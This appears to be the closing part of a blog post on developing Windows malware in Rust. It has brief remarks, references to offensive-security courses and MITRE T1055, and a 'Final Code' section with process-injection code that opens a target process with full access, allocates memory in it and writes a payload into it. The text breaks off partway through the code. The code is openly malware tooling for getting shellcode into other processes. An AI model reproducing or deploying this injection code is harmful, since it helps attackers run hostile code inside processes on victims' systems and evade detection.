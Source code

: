 Rust performs security checks at compile and runtime that prevent some of the infamous bugs, since **unsafe** blocks lack of security checks, we need to be careful when developing malwares because WinAPIs we saw are defined as **unsafe** function.

In the next blog post we would like to show how to implement other techniques and how to reverse engineering Rust malwares.

I'm new to Rust so feel free to contact me, I'd appreciate any feedback.



## References

* [https://learn.microsoft.com/en-us/windows/dev-environment/rust/](https://learn.microsoft.com/en-us/windows/dev-environment/rust/)
* [https://microsoft.github.io/windows-docs-rs/doc/windows/](https://microsoft.github.io/windows-docs-rs/doc/windows/)
* [https://socradar.io/why-ransomware-groups-switch-to-rust-programming-language/](https://socradar.io/why-ransomware-groups-switch-to-rust-programming-language/)
* [https://crates.io/crates/windows](https://crates.io/crates/windows)
* [https://doc.rust-lang.org/book/](https://doc.rust-lang.org/book/)
* [https://www.ired.team/offensive-security/code-injection-process-injection/process-injection](https://www.ired.team/offensive-security/code-injection-process-injection/process-injection)
* [https://institute.sektor7.net](https://institute.sektor7.net)
* [https://maldevacademy.com](https://maldevacademy.com)
* [https://www.consulthink.it/rustware-part-1-shellcode-process-injection-development/](https://www.consulthink.it/rustware-part-1-shellcode-process-injection-development/)
* [https://attack.mitre.org/techniques/T1055/](https://attack.mitre.org/techniques/T1055)

## Final Code

```rust
use std::{ffi::c_void, mem::transmute};

use windows::{
    Win32::Foundation::CloseHandle, Win32::System::Diagnostics::Debug::*, Win32::System::Memory::*,
    Win32::System::Threading::*,
};

fn inject(pid: u32, payload_ptr: *const c_void, payload_len: usize) {
    unsafe {
        let result_openprocess = OpenProcess(PROCESS_ALL_ACCESS, false, pid);
        let mut old_protect: PAGE_PROTECTION_FLAGS = PAGE_PROTECTION_FLAGS(0);

        match result_openprocess {
            Ok(handle_process) => {
                let remotememory_ptr: *mut c_void = VirtualAllocEx(
                    handle_process,
                    None,
                    payload_len,
                    MEM_COMMIT,
                    PAGE_READWRITE,
                );

                if !remotememory_ptr.is_null() {
                    println!("Allocated Memory Address: {:p}", remotememory_ptr);

                    let result_writeprocessmemory = WriteProcessMemory(
                        handle_process,
                        remotememory_ptr,
                        payload_ptr,
                        payload_len,
                        None,
                    );

```